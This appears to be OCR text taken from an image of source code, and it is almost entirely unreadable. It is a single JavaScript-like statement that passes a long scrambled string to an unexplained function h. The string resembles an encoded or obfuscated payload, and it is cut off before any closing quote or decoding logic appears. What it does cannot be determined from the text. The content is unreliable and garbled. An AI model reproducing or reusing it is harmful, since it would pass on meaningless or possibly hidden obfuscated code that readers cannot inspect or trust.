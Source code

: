 o=h(t,"(VjC%Pk.!EtD^<_LV%<VD!t1!t.<P!% j!e_CVCj}L0kE_t!tLttEj.jPC%E<t^_t!Eq.!P_.V...K/kj!jP5^_D!_E!tCEtkLVjyj_5^!DNEktD^ktk!t.PkjV^j.V%ttt^.!kA%!j_%V%.CDVDVr_.!_ttt<E<.Ck!L_stVCL^_C<%^VEDC_P!PCC!j<V!L^Ej.LkU%!CoVkjEV^<k_k<DDH.jkD%wj!VqLkVEjC&!L%^L^%EDC_.tPkCD<_LVL._j^ttDt+CjjV+G_!<vDk^.<j^Pt_Etj_%C%C_j_uDcE!!wkk..!^kLPDCD<__EY9_P<VDEE<!^kCP!__LtwC_^<C^%DV!DjtVtL!_,^!t_<S^LD^t%EVjkCk%Dj?^jDVE+.!kU%kkEkVP!C.jkVjtktV.jk%%=j!VZLk=.jCsELV^LDCPk.P%L%JVD<D^ot!EU.!kY%!j&P.mjLt<1D!tr!kEtDB!..PkP%^_k_LLtL%^DD^ttEC.!PC%E<t<Ct!EM.!P_!jkkPVje__IEVjL!<CDDDj%kkVkP%VjEVCY!Et!tk!PBC!V_%lCDjj^k_!EktkDDEuCjjkrT_!<nDk^E<kD.t.E!!PP.P+jD^_<_LC^!ktPEC!jBv!__VVVt_L_!._!_tC.!Vtp<_!<>D!E_DjDLDV!E.<k!%j_kLtLL_^<VktPkC!j28!__V._._5D_tDkjPVC{V!x+_kXEY<LD<_.k!kED.?Vj/k_Y^!DUEkDtD<t<!C.!i_jPj%^k<k<D^tDj%tC<V!o=_!^_<LtkDj^DDVEt!.VkCjC!V.,kEt!%k!PrC!E%!VkuC<^jDVEb.!k?%k%k.kV_:k<k_kLD<K.jkV%cj!V,LkVPV_DkLV<t^CE^!%jjWLLU<!^atk^!^.Dk%_k^Cgoj4j<JD!te!kE.t^!L.DPDL_;EVkL._D<kD.tP!^.EH_jEj.VCWC_jDLDtE<!!Vtj^_!<AD!E_DkD.D%!Dj_P.L_CEVVx!_.<k^jPkEV.DPPC<jCVE8j<L^<D%k<Ck%!PPC.j%D_Lt<kDDP_kt..kE%VCPj&LtEL!j.CP,C!j3GkVtjCVEL._!^Ckk.k!Dk+Bjet<BD!t !ktjDCE%kLk_L_,_jCL!E_!_E%tD!^kEP.%Pj^A.t__%^<kk._.Ej<CCC<V!R.Lj<C.LPtPVj!VKL!<_RV DLW<^D.t^.L.j;_jECjVPvZ<L^CDE%tCLV!9c_!^___LP<_.kt.Etj_ktP)j.VjLL_^^<ktk^C!jvx!__hDVDXy<t^CD!EC!!.Vskj%IED_<E<kDDDJE!..P^PV_kLjND_C<j^VPj%VjqU!L5<kLELV_!^.DktjCkjLcjLW<XD!tf!kt<kDk.!!kDP/jD^tDDE!!Ak!%_kM.j%LCtjC^k<M<.^tDj%tCLV!Ic_!^_LJ_._NDLDjELj_C^CLjEjjnPL6<LktPEC!jeQ!__VjVEGC_P._!_tC.!Vtjj_!<5D!E_^V^kD !L.^VkjkCDVpDktkt^^Ct%!VkLP<%%VL^kL^_P._EkEV%P%DPPCZVL:t_DE..jkj%Tj!VFLkdDjkLD_V<D^jEDC_CE4tL!<!^Rt!!_t_D!EC!Ek.P%CC<jD<t/!!.w^^tV!t.^P<_j<VDzE!!ykktt!<.Ekj%!j.V%LPEj!CkY%!C,Vkj<V<<k_%^L^VE_!..%PPVjRj_7^!DWEkD%tLtP!EkL?_V_CCF!ttEP.!kJ%!j_P.j_jCL!Dttt!!.1P!C_PzkjCLjEVEGV_.<%DPPj%oj0+!LU<kLC_L_V^CEt!L.!Vto^_!<7D!E_D^^PDCEE..P<%._kLkeD_5!j.VP:C!jSwkVtjCV%LPEktkDDEhCjV^ab_!<;VD4!_E_jPt%^j!V;L!<_L%Nj<L<CDCP<EVjkCk%Djw^j^>EO.!kr%kktk<P<CCj!D_^t<CD^tCE%!VPDL_VEV.yCLC<jtLtt!<.!4t+V<!^>t!!_D